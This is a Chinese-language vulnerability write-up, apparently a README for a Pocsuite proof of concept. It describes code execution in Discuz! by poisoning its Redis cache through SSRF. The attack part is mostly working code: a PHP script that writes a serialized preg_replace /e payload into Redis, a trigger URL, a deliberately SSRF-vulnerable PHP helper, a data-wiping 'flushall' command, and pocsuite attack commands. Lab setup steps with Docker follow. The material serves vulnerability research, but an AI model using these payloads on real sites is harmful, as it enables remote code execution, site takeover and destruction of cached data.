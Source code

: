 # Discuz!利用SSRF+Redis缓存应用导致有条件代码执行
## 0x00漏洞简介
当dz设置使用缓存后，初始化时会把缓存内容加入全局变量$_G.而在调用缓存的地方source/fucntion/function_core.php中:
```
function output_replace($content) {
        ...
        if(...){
        ....
        $content = preg_replace($_G['setting']['output']['preg']['search'], $_G['setting']['output']['preg']['replace'],$content);
        }
        return $content;
}
```
其中，关键点的两个变量我们都可以通过redis修改:
```
$_G['setting']['output']['preg']['search']=”/.*/e”;
$_G['setting']['output']['preg']['replace']=”phpinfo();”;
```
dz使用redis时，全局变量$_G[‘setting’]放在xxxx_setting中的，其中前缀就是前面config_global.php中的prefix的值.也可以在redis-cli中通过如下命令查看：
```
keys *          #查看所有键
keys *_setting  #模糊查询的方式查找匹配的键
```
得到键名后通过以下方式修改本地缓存：
```
<?php
$a['output']['preg']['search']['plugins'] = "/.*/e";
$a['output']['preg']['replace']['plugins'] = "phpinfo();";
$a['rewritestatus']['plugins']=1;
$setting = serialize($a);
$redis = new Redis();
$redis->connect('127.0.0.1',6379);
$redis->set("kQbXlj_setting",$setting);
?>
```
复写缓存后访问如下地址就能发现成功getshell:
```
/discuz/forum.php?mod=ajax&inajax=yes&action=getthreadtype
```
getshell使我们破坏了网页缓存的数据，会导致网站访问异常，可在redis-cli中刷新重置数据:
```
flushall
```
## 0x01环境搭建
###获取镜像
环境搭建共使用三个镜像：MySQL、Redis和安装过phpredis的Discuz!  
其中MySQL和Redis的镜像可用以下命令从官方获取：
```
docker pull mysql
docker pull redis
```
鉴于国外源的镜像仓库速度缓慢且有时容易中断无响应，建议通过[DaoCloud](https://www.daocloud.io/)拉取镜像

[安装过phpredis的Discuz!下载地址](http://pan.baidu.com/s/1nvGm46d)

从discuz.tar.gz恢复出Discuz!镜像：

```
gzip -dc discuz.tar.gz | docker load
```
###运行镜像
Kali(Debian) + Docker(mysql + redis + discuz)
```
docker run --name dz-mysql -e MYSQL_ROOT_PASSWORD=root -d mysql

docker run --name dz-redis -d redis

docker run --name dz-ssrf --link dz-mysql:mysql -p 8888:80 -d dz-redis-init apache2 "-DFOREGROUND"
```
访问127.0.0.1:8888进行Discuz!的安装.

安装过后将config/config_global.php中redis的地址和端口改为redis容器的地址和端口（可用docker inspect dz-redis查看IP）.

在后台中 全局 -> 性能优化 -> 内存优化 中查看redis是否被启用，若已启用则搭建完成.

## 0x02漏洞验证
在/discuz根目录下放置了ssrf_gopher.php用于构造ssrf.内容如下:
```
<?php
$ch = curl_init();
$url = $_GET['ssrf'];
echo $url.'<br/>';

curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_HEADER, 0);

$output = curl_exec($ch);
curl_close($ch);
print_r($output);
?>
```
验证：
```
pocsuite -r discuz_redis_ssrf_exec.py -u "http://127.0.0.1:8888/discuz/ssrf_gopher.php?ssrf=" --verify
```
攻击：
```
pocsuite -r discuz_redis_ssrf_exec.py -u "http://127.0.0.1:8888/discuz/ssrf_gopher.php?ssrf=" --attack
```
## 0x03参考
* [pocsuite](http://pocsuite.org/)
* [PoC编写规范及要求说明](https://github.com/knownsec/Pocsuite/blob/master/docs/CODING.md)
* [Seebug/ssvid-91879](https://www.seebug.org/vuldb/ssvid-91879)
* [imp0wd3r](https://github.com/imp0wd3r)
* [C1tas](https://github.com/C1tas)
* [漏洞检测的那些事儿](http://drops.wooyun.org/tips/16431)
